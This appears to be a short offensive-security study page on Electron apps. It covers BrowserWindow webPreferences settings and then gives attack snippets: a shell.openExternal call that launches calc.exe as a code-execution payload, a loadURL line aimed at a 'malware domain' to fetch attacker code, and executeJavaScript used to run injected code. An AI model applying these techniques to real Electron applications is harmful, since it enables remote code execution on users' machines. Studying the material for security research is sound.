 **Electron Application BrowserWindow API**

The following are related to the Electron Application BrowserWindow API.

- **webPreferences Object (optional)** — Settings of web page’s features.
- **javascript (Boolean-optional)** Enables JavaScript Support (Default is true)
- **webSecurity (Boolean-optional)** When `false`, it will disable the `same-origin policy` (usually using testing websites by peorple), and set `allowRunningInsecureContent` to `true` if this options has not been set by user (Default is true)
- **sandbox (Boolean-optional)** if set, this will `sandbox` the renderer associated with the window, making it compatible with the Chromium OS-level `sandbox` and disabling the Node.js engine. This is not the same as the `nodeIntegration` option and the APIs available to the preload script are more limited.
- **context isolation (Boolean-optional)** Whether to run Electron APIs and the specified preload script in a separate Javascript Context. This option should be used when loading potentially untrusted remote content to ensure the loaded content cannot tamper with the preload script and any Electron APIs being used

**Node JS Code execution payload**

- Because Node JS is enabled, you can use the following Electron Application APIs.

``` tsx
    const {shell}=require('electron');
    shell.openExternal('file:C:/Windows/System32/calc.exe');
```

- It is an API in the form of `shell.openExternal(url[, options])` and the following are sub-related contents.

``` tsx
    shell.openExternal(url) -> url is Path of the file to be executed
```

- Assign the corresponding code to a string variable.

**Electron Application****loadURL API**

- electron Application loadURL API (Contentes Load API)
- Based on the Electron Application loadURL API, it proceeds to download files and codes in the attacker’s server.

The following is the attack direction and usage plan for loadURL.

``` tsx
    // Remote URL load
    win.loadURL('malware domain')// local file load
    win.loadURL(`file://${__dirname}/app/index.html`)
```

**executeJavascript API**

- executeJavascript API is used to interpret and execute NodeJS code to be used for attack.

The following is the usage format of that API.

``` tsx
    BrowserWindow(Instance).webContents.mainFrame.executeJavaScript(CODE EXECUTION);
```

```toc
```